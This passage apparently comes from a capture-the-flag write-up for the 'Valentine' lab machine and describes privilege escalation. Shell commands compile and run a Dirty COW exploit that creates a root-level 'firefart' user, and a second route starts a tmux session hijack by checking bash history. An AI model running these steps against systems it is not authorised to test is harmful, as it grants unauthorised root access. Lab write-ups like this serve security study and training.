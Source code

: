 ```bash
#Compile the script
gcc -pthread dirty.c -o dirty -lcrypt
```

```bash
./dirty
```

When prompted, create password for firefart (the default username):

![Untitled](Valentine%20951cc2e3a0a847249981b494aef933be/Untitled%2022.png)

Upon completion, switch user to firefart

```bash
su firefart
```

And we see that we once we log in, we are in the root group, and hence have root access

![Untitled](Valentine%20951cc2e3a0a847249981b494aef933be/Untitled%2023.png)

## Route 2: tmux

First, we can check bash history:

```bash
cat ~/.bash_history
```

If we see tmux -S, we know a tmux session was started

![Untitled](Valentine%20951cc2e3a0a847249981b494aef933be/Untitled%2024.png)
